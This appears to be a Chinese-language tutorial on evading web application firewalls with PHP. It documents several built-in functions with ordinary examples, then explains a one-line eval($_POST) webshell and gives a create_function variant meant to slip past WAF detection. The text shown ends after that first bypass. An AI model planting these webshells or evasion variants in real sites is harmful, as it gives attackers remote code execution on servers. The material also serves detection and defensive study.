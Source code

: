 # PHP绕过WAF检测

## 常用函数

### error_reporting()

```
error_reporting(report_level)
```

| 值   | 常量                | 描述                                                         |
| :--- | :------------------ | :----------------------------------------------------------- |
| 1    | E_ERROR             | 致命的运行时错误。 错误无法恢复过来。脚本的执行被暂停        |
| 2    | E_WARNING           | 非致命的运行时错误。 脚本的执行不会停止                      |
| 4    | E_PARSE             | 编译时解析错误。解析错误应该只由分析器生成                   |
| 8    | E_NOTICE            | 运行时间的通知                                               |
| 16   | E_CORE_ERROR        | 在PHP启动时的致命错误。这就好比一个在PHP核心的E_ERROR        |
| 32   | E_CORE_WARNING      | 在PHP启动时的非致命的错误。这就好比一个在PHP核心E_WARNING警告 |
| 64   | E_COMPILE_ERROR     | 致命的编译时错误。 这就像由Zend脚本引擎生成了一个E_ERROR     |
| 128  | E_COMPILE_WARNING   | 非致命的编译时错误，由Zend脚本引擎生成了一个E_WARNING警告    |
| 256  | E_USER_ERROR        | 致命的用户生成的错误                                         |
| 512  | E_USER_WARNING      | 非致命的用户生成的警告                                       |
| 1024 | E_USER_NOTICE       | 用户生成的通知                                               |
| 2048 | E_STRICT            | 运行时间的通知                                               |
| 4096 | E_RECOVERABLE_ERROR | 捕捉致命的错误                                               |
| 8191 | E_ALL               | 所有的错误和警告                                             |

**Example:**

```php
<?php
//禁用错误报告
error_reporting(0);

//报告运行时错误
error_reporting(E_ERROR | E_WARNING | E_PARSE);

//报告所有错误
error_reporting(E_ALL);
?>
```

### base64_decode()

base64_decode — 对使用 MIME base64 编码的数据进行解码

```
base64_decode ( string $data , bool $strict = false ) : string
```

**参数解释**
|参数|说明|
|---|---|
|data|编码过的数据|
|strict|当设置 `strict` 为 **`true`** 时，一旦输入的数据超出了 base64 字母表，将返回 **`false`**。 否则会静默丢弃无效的字符。|

返回原始数据， 或者在失败时返回 **`false`**。返回的数据可能是二进制的

**Example**

```php
<?php
$str = 'VGhpcyBpcyBhbiBlbmNvZGVkIHN0cmluZw==';
echo base64_decode($str);
?>
```

### array_map()

array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新的值的数组。

**语法**

```php
array_map(*myfunction,array1,array2,array3*...)
```


| 参数         | 描述                                      |
| :----------- | :---------------------------------------- |
| *myfunction* | 必需。用户自定义函数的名称，或者是 null。 |
| *array1*     | 必需。规定数组。                          |
| *array2*     | 可选。规定数组。                          |
| *array3*     | 可选。规定数组。                          |

**Example**

```php
<?php
function myfunction($v)
{
if ($v==="Dog")
   {
   return "Fido";
   }
return $v;
}

$a=array("Horse","Dog","Cat");
print_r(array_map("myfunction",$a));
?>
```

### creat_function()

创建一个匿名函数，此函数在内部执行`eval`，因此有相同的安全性问题。此外，它还具有不良的性能和内存使用特性

```php
create_function （字符串 $args ，字符串 $code ）：字符串
```

通常，这些参数将作为单引号分隔的字符串传递。使用单引号引起来的字符串的原因是为了防止变量名被解析，否则，如果使用双引号，则需要转义变量名，例如`\$avar`。

- `args`

  函数参数。

- `code`

  功能代码。

返回唯一的函数名称作为字符串或**`false`**错误。

**Example**

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo "New anonymous function: $newfunc\n";
echo $newfunc(2, M_E) . "\n";
// outputs
// New anonymous function: lambda_1
// ln(2) + ln(2.718281828459) = 1.6931471805599
?>
```

### var_dump()

var_dump — 打印变量的相关信息

```php
var_dump ( mixed $expression , mixed $... = ? ) : void
```

**Example**

```php
<?php
$a = array(1, 2, array("a", "b", "c"));
var_dump($a);
?>
```

## PHP WEBSHELL工作原理

```php
<?php
    eval($_POST["PASS"]);
?>
```

当PASS == phpinfo();时

```php
<?php
    eval("phpinfo();")
?>
```

所以执行`phpinfo()`

如果pass值为`echo dirname(__FILE__)`

则会输出文件所在目录 

## 绕过WAF

### 使用create_function()替换eval()

**Example**

```php
<?php
    $pass = $_POST['pass'];
    $a = create_function("",$pass);
	$a();
?>
```

